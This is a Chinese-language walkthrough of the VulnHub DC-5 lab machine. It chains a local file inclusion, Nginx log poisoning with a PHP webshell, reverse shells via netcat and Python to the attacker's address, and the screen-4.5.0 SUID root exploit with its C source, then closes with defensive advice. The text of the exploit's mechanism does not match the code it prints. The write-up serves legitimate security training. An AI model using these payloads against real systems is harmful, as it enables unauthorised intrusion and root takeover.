

## 靶机简介

DC-5 是 VulnHub 上 DC 系列靶机中的第五台，由 DCAU 设计。该靶机模拟了一台运行 Nginx + PHP 的 Linux Web 服务器，核心漏洞链为 **文件包含（LFI）→ Nginx 日志投毒 → RCE**，最终通过 **screen-4.5.0 SUID 提权**（CVE-2017-5618）获取 root 权限。

| 属性 | 值 |
|------|-----|
| 靶机名称 | DC-5 |
| 难度 | 中等 |
| 目标 | 读取 /root/flag.txt |
| 攻击机 | Kali Linux |
| 网络模式 | NAT（仅主机模式也可） |

---

## 渗透流程图



---

## 一、环境准备

### 1.1 下载与导入

从 VulnHub 官网下载 DC-5 的 OVA 镜像文件，使用 VMware Workstation 或 VirtualBox 导入。网络适配器设置为 **NAT 模式**或**仅主机模式**，确保攻击机和靶机在同一网段。

### 1.2 攻击机信息

本实战使用 Kali Linux 作为攻击机，IP 地址为 `192.168.10.128`（以实际环境为准）。

---

## 二、信息收集

### 2.1 主机发现

首先通过 `arp-scan` 或 `netdiscover` 工具扫描局域网内存活主机，定位靶机 IP。

```bash
sudo arp-scan -l
```

很快就能发现新增的 IP 地址，假设靶机 IP 为 `192.168.10.133`。

也可以使用 `nmap` 进行存活主机扫描：

```bash
nmap -sn 192.168.10.0/24
```

### 2.2 端口扫描

对靶机进行全端口扫描，识别开放的服务。

```bash
nmap -sS -sV -p- -T4 192.168.10.133
```

**扫描结果：**

| 端口 | 服务 | 版本 |
|------|------|------|
| 80/tcp | HTTP | nginx 1.6.2 |
| 111/tcp | rpcbind | 2-4 |
| 22/tcp | SSH | filtered |
| 42376/tcp | status | - |

关键发现：
- **80 端口**开放 Nginx 1.6.2 Web 服务
- SSH 端口被**过滤**（filtered），无法直接爆破
- rpcbind 服务开放但暂无可利用通道

### 2.3 目录扫描

使用 `dirb` 或 `gobuster` 对 Web 服务进行目录枚举。

```bash
dirb http://192.168.10.133
gobuster dir -u http://192.168.10.133 -w /usr/share/wordlists/dirb/common.txt
```

发现的目录和文件包括：

```
/index.html
/contact.php
/thankyou.php
/footer.php
/css/
/images/
```

### 2.4 网站功能分析

浏览器访问 `http://192.168.10.133`，网站是一个简洁的博客或公司首页。导航栏包含以下页面：

- **Home** - 首页
- **About Us** - 关于我们页
- **Contact** - 联系表单页（`contact.php`）
- **Thank You** - 感谢页（`thankyou.php`）

重点关注 `/contact.php` 页面，它包含一个联系表单，允许用户提交姓名、邮箱、留言等信息。我们猜测该页面可能存在参数传递与文件包含漏洞。

---

## 三、漏洞发现：Contact 表单 LFI

### 3.1 初步测试

访问 `contact.php` 页面后，首先尝试修改 URL 参数。在浏览器地址栏中尝试：

```
http://192.168.10.133/contact.php?file=test
```

页面内容发生变化——这意味着参数 `file` 被后端 PHP 脚本处理了。

尝试经典的本地文件包含 Payload：

```
http://192.168.10.133/contact.php?file=../../../../etc/passwd
```

**成功读取到 `/etc/passwd` 文件内容！** 这确认了**本地文件包含（LFI）漏洞**的存在。

### 3.2 进一步验证

继续尝试读取更多系统文件以确认 LFI 的范围和权限：

```bash
# 读取 passwd 文件
curl "http://192.168.10.133/contact.php?file=../../../../etc/passwd"

# 读取 nginx 配置文件
curl "http://192.168.10.133/contact.php?file=../../../../etc/nginx/nginx.conf"

# 读取 PHP 配置
curl "http://192.168.10.133/contact.php?file=../../../../etc/php5/fpm/php.ini"
```

这些文件都能成功读取，说明 LFI 漏洞有效且权限足够。通过读取 `/etc/passwd` 我们发现系统中存在普通用户账户，但密码哈希存储在 `/etc/shadow` 中，通常情况下 Web 用户无法直接读取。

---

## 四、LFI 到 RCE：Nginx 日志投毒

仅仅拥有 LFI 是不够的，我们需要将其升级为远程代码执行（RCE）。一个经典思路是**日志文件投毒（Log Poisoning）**。

### 4.1 确认 Nginx 日志路径

通过 LFI 尝试读取 Nginx 访问日志：

```
http://192.168.10.133/contact.php?file=../../../../var/log/nginx/access.log
```

成功读取到日志文件，并且可以看到之前的浏览器请求记录，包括 User-Agent、请求路径等信息。

### 4.2 原理分析

Nginx 的访问日志会记录每一次 HTTP 请求的详细信息，其中包括 `User-Agent` 头部。如果我们能将 PHP 代码注入到 `User-Agent` 中，随后通过 LFI 去 `include` 该日志文件，PHP 引擎就会解析并执行嵌入在日志中的 PHP 代码。

这就是**日志投毒（Log Poisoning）攻击**的核心思路。

### 4.3 Burp Suite 投毒

使用 Burp Suite 拦截一次对网站的请求，将 `User-Agent` 替换为 PHP 一句话木马：

```http
GET / HTTP/1.1
Host: 192.168.10.133
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html
...
```

发送该请求后，PHP 代码会被原样写入 Nginx 的 `access.log` 中。

### 4.4 触发代码执行

再次通过 LFI 访问日志文件，并通过 `cmd` 参数传递系统命令：

```
http://192.168.10.133/contact.php?file=../../../../var/log/nginx/access.log&cmd=id
```

页面返回了类似以下内容，其中夹杂着 `id` 命令的执行结果：

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**至此，LFI 成功转化为 RCE！** 我们以 `www-data` 用户的身份在靶机上执行任意系统命令。

### 4.5 获取反弹 Shell

为了方便后续操作，我们通过 Python 反弹一个交互式 Shell。在 Kali 攻击机上开启监听：

```bash
nc -lvnp 4444
```

然后在浏览器或通过 `curl` 执行反弹 Shell 命令（注意 URL 编码）：

```bash
curl "http://192.168.10.133/contact.php?file=../../../../var/log/nginx/access.log&cmd=nc -e /bin/bash 192.168.10.128 4444"
```

如果没有 `-e` 选项的 netcat，可以尝试其他方式：

```bash
curl "http://192.168.10.133/contact.php?file=../../../../var/log/nginx/access.log&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.10.128\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])'"
```

Shell 成功反弹后，升级为更稳定的交互式 TTY：

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# 按 Ctrl+Z 将进程挂到后台，然后：
stty raw -echo; fg
```

---

## 五、提权：screen-4.5.0 SUID（CVE-2017-5618）

### 5.1 基础信息收集

获得 `www-data` Shell 后，我们需要收集系统信息，寻找提权路径。

```bash
# 查看系统版本
uname -a
cat /etc/issue
cat /etc/*-release

# 查看 SUID 文件
find / -perm -4000 -type f 2>/dev/null

# 查看当前用户权限
id
sudo -l
```

在 SUID 文件列表中出现了一个引人注目的程序：

```
/usr/bin/screen-4.5.0
```

### 5.2 漏洞确认

`screen` 是一个经典的终端复用器，但版本 **4.5.0** 存在一个已知的本地提权漏洞 **CVE-2017-5618**。

**漏洞原理：** screen 4.5.0 在编译时没有正确启用特权分离模式。当 screen 以 SUID root 身份运行时，攻击者可以通过精心构造的配置文件或调试选项，触发 screen 以 root 权限执行任意操作，从而完成本地提权。

使用 `searchsploit` 搜索相关 Exploit：

```bash
searchsploit screen 4.5.0
```

找到对应的 Exploit 脚本（例如 `41154.sh`）。

### 5.3 查看 Exploit 内容

```bash
searchsploit -m 41154
cat 41154.sh
```

该 Exploit 的核心原理是：

1. 编译一个共享库文件（`.so`），在其中定义 `getgid` 函数，该函数会调用 `setuid(0)` 和 `setgid(0)` 然后执行 `/bin/sh`
2. 通过设置 `LD_PRELOAD` 环境变量，使 screen 在运行时优先加载该恶意的共享库
3. screen 具有 SUID 权限，加载 `.so` 后以 root 身份执行 shell

核心 Payload（libhax.c）：

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>

__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

以及 rootshell.c：

```c
#include <stdio.h>

int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

### 5.4 执行提权

将 Exploit 脚本内容分步在靶机上执行。由于靶机可能没有安装 `gcc`，我们需要分两步走：

**方案一：在靶机上编译（如果有 gcc）**

```bash
cd /tmp
# 将 exploit 代码写入文件
echo '...' > libhax.c
echo '...' > rootshell.c

gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c

# 利用 screen-4.5.0 的 SUID 漏洞触发提权
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

**方案二：在攻击机上交叉编译后上传**

如果靶机缺少编译工具，可以在 Kali 上编译好二进制文件，然后通过 Python HTTP Server 传输：

Kali 上：

```bash
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc -o rootshell rootshell.c
python3 -m http.server 80
```

靶机上：

```bash
cd /tmp
wget http://192.168.10.128/libhax.so
wget http://192.168.10.128/rootshell
chmod +x rootshell

# 执行提权
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

### 5.5 获取 Flag

成功获得 root shell 后：

```bash
whoami
# root

cd /root
ls -la
cat flag.txt
```

Flag 内容通常形如：

```
################################
#   Congratulations!          #
#   You have rooted DC-5!     #
#   Flag: [随机字符串]          #
################################
```

---

## 六、攻击链总结

| 阶段 | 技术 | 要点 |
|------|------|------|
| 信息收集 | nmap / dirb | 发现 HTTP 80 + Nginx |
| 漏洞发现 | 手动测试 | Contact 表单 LFI |
| LFI → RCE | Nginx 日志投毒 | User-Agent 注入 PHP 代码 |
| 建立立足点 | 反弹 Shell | nc / Python Reverse Shell |
| 本地提权 | CVE-2017-5618 | screen-4.5.0 SUID 漏洞 |
| 达成目标 | 读取 Flag | /root/flag.txt |

**攻击链全貌：**

```
Port Scan → Web 发现 → LFI 漏洞 → Nginx 日志投毒 → RCE → 反弹 Shell
→ SUID 查找 → screen-4.5.0 CVE-2017-5618 → Root → Flag
```

---

## 七、防御建议

1. **输入验证**：对 `contact.php` 中的 `file` 参数进行白名单校验，禁止包含路径遍历字符。
2. **关闭 allow_url_include**：在 `php.ini` 中设置 `allow_url_include = Off`，并严格限制 `include` 的文件路径。
3. **日志目录权限**：Nginx 日志文件的权限应设为仅 root 可写，防止 Web 进程写入日志。
4. **更新软件**：将 `screen` 升级到修复版本（4.5.1+），或移除不必要的 SUID 位。
5. **最小权限原则**：检查系统中所有 SUID 二进制文件，移除非必要的 SUID 权限。

---

## 八、参考链接

- [VulnHub DC-5 官方页面](https://www.vulnhub.com/entry/dc-5,314/)
- [CVE-2017-5618 - GNU Screen 4.5.0 Privilege Escalation](https://nvd.nist.gov/vuln/detail/CVE-2017-5618)
- [Exploit-DB: GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)

---

## 免责声明

> 本文所涉及的技术、工具和方法仅供**安全研究与学习**之用。严禁利用文中内容进行任何违法活动。读者因不当使用本文信息所造成的任何直接或间接后果，均由使用者本人承担，与本文作者无关。在进行渗透测试前，请确保已获得目标系统所有者的书面授权。
